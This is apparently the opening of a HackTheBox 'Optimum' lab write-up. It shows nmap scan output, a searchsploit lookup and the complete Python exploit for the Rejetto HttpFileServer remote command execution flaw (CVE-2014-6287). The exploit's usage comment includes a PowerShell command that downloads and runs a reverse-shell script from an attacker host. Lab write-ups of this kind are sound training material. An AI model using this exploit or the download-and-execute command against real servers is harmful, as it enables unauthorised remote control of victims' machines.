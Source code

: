 ```
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 07:03
Scanning 10.10.10.8 [1 port]
Discovered open port 80/tcp on 10.10.10.8
Completed Connect Scan at 07:03, 0.27s elapsed (1 total ports)
Nmap scan report for 10.10.10.8
Host is up, received syn-ack (0.15s latency).
Scanned at 2023-01-30 07:03:47 EST for 0s

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds
```

## Enumeration
Now that only one port was open, I visited the web-page on port `80`, and found out a `HTTP File Server`. I found the `version` of the `HTS` on the web-page, and decided to google the version, to see if any vulnerability exists.

![opt-1](https://user-images.githubusercontent.com/87711310/215473802-b978760e-5e22-4bca-ba33-5ede91f24cf4.png)

I searched for `HTTPFileServer` on searchsploit, and it gave me a `RCE` exploit which was applicable on this machine.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Optimum]
└─$ searchsploit httpfileserver
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command | windows/webapps/49125.py
---------------------------------------------- ---------------------------------
Shellcodes: No Results
```

This vulnerability is know as [CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287).

Now, I copied this exploit to my working directory and tried to understand how it works.

```python
#!/usr/bin/python3

# Usage :  python3 Exploit.py <RHOST> <Target RPORT> <Command>
# Example: python3 HttpFileServer_2.3.x_rce.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.4/shells/mini-reverse.ps1')"

import urllib3
import sys
import urllib.parse

try:
        http = urllib3.PoolManager()    
        url = f'http://{sys.argv[1]}:{sys.argv[2]}/?search=%00{{.+exec|{urllib.parse.quote(sys.argv[3])}.}}'
        print(url)
        response = http.request('GET', url)
        
except Exception as ex:
        print("Usage: python3 HttpFileServer_2.3.x_rce.py RHOST RPORT command")
        print(ex)
```
